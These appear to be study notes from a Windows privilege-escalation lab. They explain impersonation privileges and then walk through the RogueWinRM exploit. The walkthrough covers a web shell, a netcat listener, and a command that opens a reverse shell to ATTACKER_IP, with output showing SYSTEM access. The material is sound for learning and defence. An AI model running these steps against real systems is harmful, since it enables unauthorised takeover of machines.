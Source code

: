 These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user `ftp`. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:
![[Pasted image 20240828165317.png]]
Several reasons why using ftp's token is not the best idea: 
- For the files to be served correctly, they would need to be accessible to the `ftp` user. In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user `ftp`. This adds complexity as we must manually configure specific permissions for each served file/directory. 
- For the operating system, all files are accessed by user `ftp`, independent of which user is currently logged in to the FTP service. This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it. 
- If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the `ftp` user has access.

If, on the other hand, the FTP service's user has the *SeImpersonate* or *SeAssignPrimaryToken* privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:
![[Pasted image 20240828165500.png]]
Now, if user Ann logs in to the FTP service and given that the ftp user has impersonation privileges, it can borrow Ann's access token and use it to access her files. This way, the files don't need to provide access to user `ftp` in any way, and the operating system handles authorisation. Since the FTP service is impersonating Ann, it won't be able to access Jude's or Bill's files during that session.

As attackers, if we manage to take control of a process with *SeImpersonate* or *SeAssignPrimaryToken* privileges, we can impersonate any user connecting and authenticating to that process.

In Windows systems, you will find that the **LOCAL SERVICE** and **NETWORK SERVICE ACCOUNTS** already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. *Internet Information Services (IIS)* will also create a similar default account called "*iis apppool\defaultapppool*" for web applications.

To elevate privileges using such accounts, an attacker needs the following: 
1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 
2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We will use *RogueWinRM* exploit to accomplish both conditions. Let's start by assuming we have already compromised a website running on *IIS* and that we have planted a web shell on the following address: `http://10.10.141.18/`

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:
	![[Pasted image 20240828165736.png]]

To use *RogueWinRM*, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.

The *RogueWinRM* exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:
```shell-session
user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:
```shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
- The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. 
- The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

![[Pasted image 20240828170322.png]]

*Note:* 
	The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

If all was correctly set up, you should expect a shell with SYSTEM privileges:
```
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```
